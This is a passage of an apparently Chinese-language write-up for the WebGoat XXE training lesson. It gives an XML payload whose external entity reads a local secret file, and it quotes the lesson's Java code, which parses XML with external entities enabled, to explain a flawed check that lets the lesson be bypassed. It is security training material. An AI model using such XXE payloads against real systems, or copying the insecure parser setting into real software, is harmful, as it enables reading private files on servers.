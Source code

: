 
- 还有一个简单的绕过方法，构造请求体如下  

```xml
<?xml version="1.0"?>
<!DOCTYPE comment[
<!ENTITY file SYSTEM "file:///home/webgoat/.webgoat-2023.8//XXE/webgoat/secret.txt">
]>
<comment>  <text>aaaaa&file;</text></comment>
```  
![alt text](image-14.png)  
因为服务端检验的逻辑是，首先判断请求体的原始数据有没有包含secret的内容，只要有就通过  
如果没有就xml解析，展开实体，但是webgoat的开发者写成secret的内容是否包含了text标签的内容，作者怀疑是开发者写错了，所以随便加点就可以绕过  

---

关键代码如下，完整代码的位置在WebGoat\src\main\java\org\owasp\webgoat\lessons\xxe，源码在github上可以下载  
```java  
 if (commentStr.contains(fileContentsForUser)) {
    /*
     * commentStr是请求体的原始数据，是xml格式的数据，是String类
     * fileContentsForUser是为用户生成的secret内容，也是String类
     * 如果commentStr包含secret的内容，就正确
     */
      return success(this).build();
    }
    

    try {
      /*
       * comments是一个CommentsCache类,管理评论区的内容
       * parseXml解析原始xml数据，返回评论的内容
       * false表示不启用安全模式，运行使用外部实体
       * comments解析请求体返回一个Comment类
       * 如果解析后的内容属于secret的一部分，就修改请求
       * 
       */
      Comment comment = comments.parseXml(commentStr, false);
      if (fileContentsForUser.contains(comment.getText())) {
        comment.setText("Nice try, you need to send the file to WebWolf");
      }
      comments.addComment(comment, user, false);
    } catch (Exception e) {
      return failed(this).output(e.toString()).build();
    }
```  

---  